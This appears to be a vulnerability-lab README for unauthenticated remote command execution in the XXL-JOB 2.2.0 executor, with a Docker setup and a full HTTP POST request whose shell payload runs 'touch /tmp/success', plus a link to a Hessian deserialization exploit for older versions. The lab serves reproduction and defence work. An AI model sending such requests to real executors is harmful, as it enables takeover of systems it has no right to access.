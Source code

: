 # XXL-JOB Executor Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

XXL-JOB is a distributed task scheduling platform with core design goals of rapid development, simple learning, lightweight, and easy extensibility. It is now open source and has been integrated into many companies' production lines, ready to use out of the box.

XXL-JOB is divided into two parts: admin and executor, where the former is the backend management page and the latter is the task execution client. The executor has no authentication configured by default, allowing unauthorized attackers to execute arbitrary commands through the RESTful API.

References:

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## Environment Setup

Execute the following command to start XXL-JOB version 2.2.0:

```
docker compose up -d
```

After the environment is started, you can access the management end (admin) at `http://your-ip:8080` and the client end (executor) at `http://your-ip:9999`.

## Vulnerability Reproduction

Send the following data packet to the client (executor) to execute commands:

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

The command `touch /tmp/success` has been successfully executed:

![](2.png)

Additionally, for XXL-JOB versions below 2.2.0 that don't have a RESTful API, we can execute commands through [Hessian deserialization](https://github.com/OneSourceCat/XxlJob-Hessian-RCE).
